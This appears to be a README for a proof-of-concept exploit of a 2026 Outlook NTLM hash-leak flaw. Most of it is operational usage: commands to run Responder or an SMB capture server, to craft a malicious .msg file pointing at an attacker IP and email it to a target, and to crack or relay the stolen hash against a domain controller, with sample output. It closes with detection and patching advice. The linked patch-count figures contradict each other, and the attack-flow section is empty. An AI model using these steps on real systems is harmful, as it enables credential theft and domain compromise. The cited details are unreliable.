

<div align="center">

# CVE-2026-124194

### Microsoft Outlook — NTLM Hash Leak via Crafted Message File (Zero-Day)


</div>

---

## Overview

Classic Outlook for Windows connects to an attacker-controlled UNC path embedded in a crafted `.msg` file **without displaying the external-content warning** it normally shows. Windows then performs an automatic NTLM authentication handshake to the attacker's SMB server, leaking the victim's NetNTLMv2 credential hash. The hash can be cracked offline or used in a real-time NTLM relay attack. This was actively exploited in the wild before the November 2026 Patch Tuesday and was added to CISA's KEV catalog with a **24 November 2026** remediation deadline.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-124194 |
| **CVSS 3.1** | `6.5 Medium` — `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N` |
| **CWE** | CWE-356 (Product UI Does Not Warn User of Unsafe Actions) |
| **Affected** | Classic Outlook for Windows in Microsoft 365 Apps, Office LTSC 2024, Office LTSC 2021 (before Nov 10, 2026 builds) |
| **Not affected** | New Outlook for Windows, Outlook on the web, Outlook for Mac, mobile apps |
| **Preview Pane** | Not an attack vector — file must be opened |
| **Fixed** | November 10, 2026 Patch Tuesday (Office update) |
| **KEV** | CISA added 2026-11-10, federal deadline 2026-11-24 |
| **Auth Required** | None — attacker needs no account |
| **Disclosed** | 2026-11-10 |

---

## Vulnerability Details

Outlook processes a crafted `.msg` file containing an RTF body with an `INCLUDEPICTURE` or `INCLUDETEXT` field referencing a UNC path (`\attacker\share\file`). The code path that resolves this reference bypasses the external-content consent dialog introduced in earlier security hardening. Windows' NTLM SSP automatically authenticates to the attacker's SMB server, handing over the victim's NetNTLMv2 challenge-response.

The leaked value is a NetNTLMv2 hash — not the NT hash, so it cannot be used directly for pass-the-hash. However, it can be:
- Cracked offline with Hashcat/John against wordlists
- Relayed in real time to authenticate to other services that accept NTLM (SMB, HTTP NTLM, LDAP) using tools like `ntlmrelayx`

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. Run an isolated Windows VM with classic Outlook installed. Never send crafted `.msg` files to real targets.

### Setup

```bash
pip install impacket pywin32  # Windows lab only
# Or use Responder for hash capture:
# sudo responder -I eth0 -wv
```

### Step 1 — Start the SMB capture server

```bash
# Option A: Responder (Linux attacker)
sudo python3 Responder.py -I eth0 -wv

# Option B: impacket smbserver (cross-platform)
python3 poc.py --mode server --ip 10.10.10.1 --port 445
```

### Step 2 — Generate the crafted .msg file

```bash
python3 poc.py --mode craft \
    --attacker-ip 10.10.10.1 \
    --out evil.msg
```

Expected output:
```
[*] crafting evil.msg
[*] embedding UNC path: \10.10.10.1\share\loot.jpg
[+] written: evil.msg (8.2 KB)
[*] deliver via email to target running classic Outlook
[*] target must OPEN the file (preview pane is safe)
```

### Step 3 — Capture the hash

After the victim opens `evil.msg`, the SMB server receives:
```
[SMB] NTLMv2-SSP Client   : 192.168.1.50
[SMB] NTLMv2-SSP Username : CORP\jsmith
[SMB] NTLMv2-SSP Hash     : jsmith::CORP:aad3b435b51404ee:...
[!] HASH CAPTURED — save to hashes.txt
```

### Step 4 — Crack or relay

```bash
# Offline crack
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

# Real-time relay (ntlmrelayx)
python3 poc.py --mode relay \
    --target-smb //dc01.corp.local \
    --hashes-file hashes.txt
```

### Available flags

| Flag | Description |
|---|---|
| `--mode server\|craft\|relay` | Operation mode |
| `--ip IP` | Attacker IP embedded in UNC path / server bind address |
| `--port N` | SMB server port (default: `445`) |
| `--out FILE` | Output `.msg` path (default: `evil.msg`) |
| `--attacker-ip IP` | Attacker IP for `craft` mode |
| `--target-smb URL` | Target SMB for relay mode |
| `--hashes-file FILE` | Hash file for relay mode |

### Expected output — patched Outlook

After installing the November 2026 Office update, Outlook shows an external-content warning before resolving the UNC path, and the connection is blocked by default:
```
[*] Outlook displayed external-content warning (blocked)
[+] NOT vulnerable — no NTLM authentication attempt observed
```

---

## Detection

| Indicator | Notes |
|---|---|
| Outbound SMB (TCP 445) to external IP from Outlook process | Windows Firewall / network IDS alert |
| `outlook.exe` → `msv1_0.dll` NTLM auth to unknown host | EDR process/network correlation |
| `.msg` attachment opened followed by outbound port 445 | SIEM rule: process=outlook, dst_port=445 within 5s |
| CISA KEV rule for CVE-2026-124194 | Tenable, Qualys, Rapid7 plugin |

---

## Impact

An attacker can capture the victim's domain credentials (NetNTLMv2) by sending a single email. No interaction beyond opening the file is required. With NTLM relay, full domain compromise is possible without cracking if services accept NTLM without signing enforcement.

---

## Remediation

| Action | Detail |
|---|---|
| Install November 2026 Office update | Microsoft 365 Apps, LTSC 2024/2021 — patch by 2026-11-24 (CISA KEV deadline) |
| Block outbound SMB | Firewall rule: block TCP 445 from client workstations to internet |
| Enable NTLM relay protections | SMB signing on all hosts, EPA on IIS/Exchange |
| Migrate to New Outlook | Not affected by this CVE |

---

## References

- CISA KEV: https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- SOCPrime Analysis: https://socprime.com/blog/cve-2026-124194-microsoft-outlook-zero-day-exploited-to-steal-ntlm-hashes/
- Tenable Patch Tuesday: https://www.tenable.com/blog/microsoft-november-2026-patch-tuesday-addresses-1093-cves-cve-2026-124194
- BleepingComputer: https://www.bleepingcomputer.com/news/microsoft/microsoft-november-2026-patch-tuesday-fixes-1-235-flaws-outlook-zero-day/
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-124194

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
